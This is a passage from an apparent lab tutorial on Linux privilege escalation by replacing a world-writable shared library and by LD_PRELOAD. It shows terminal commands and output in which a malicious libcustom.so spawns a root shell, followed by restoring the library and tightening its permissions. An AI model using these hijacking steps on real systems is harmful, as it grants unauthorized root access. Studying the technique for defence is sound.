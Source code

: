 ```bash
user@pwn:~/so-files/evil$ cp libcustom.so /lib/libcustom.so
```

Using `ldd` we can see that the library (`libcustom.so`) is pointing to the file that we just replaced:

```bash
user@pwn:~/so-files/evil$ ldd /usr/bin/myexec
	linux-vdso.so.1 (0x00007fff77127000)
	libcustom.so => /lib/libcustom.so (0x00007fdca1271000)
	libc.so.6 => /lib/x86_64-linux-gnu/libc.so.6 (0x00007fdca137f000)
	/lib64/ld-linux-x86-64.so.2 (0x00007fdcb138c000)
```

If we execute the binary, it will load the malicious library:

```bash
user@pwn:~/so-files/evil$ /usr/bin/myexec
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
root@pwn:~/so-files/evil# id
uid=0(root) gid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),120(lpadmin),132(lxd),133(sambashare),1000 (user)
root@pwn:~/so-files/evil# whoami
root
root@pwn:~/so-files/evil# 
```

As we can see, we're able to escalate privileges.

Exit out of the root shell:

```bash
root@pwn:~/so-files/evil# exit
```

Now let's restore the original library:

```bash
user@pwn:~/so-files/evil$ sudo cp ~/so-files/libcustom.so /lib/libcustom.so 
```

Lastly, remove the write permissions from other users and groups:

```bash
user@pwn:~/so-files/evil$ sudo chmod o-w /lib/libcustom.so
```

# Privilege Escalation via LD_PRELOAD

This will **ONLY** work if the binary does **NOT** have a SUID bit set. Let's execute the binary that does **NOT** have a SUID bit set, in this case, `myexec2` that we created earlier: 

```bash
user@pwn:~/so-files/evil$ LD_PRELOAD=/home/user/so-files/evil/libcustom.so /usr/bin/myexec2
Message from myexec.c!
I'm the bad library!
I'm trying to spawn a root shell...
Check your shell!
user@pwn:~/so-files/evil$ 
```
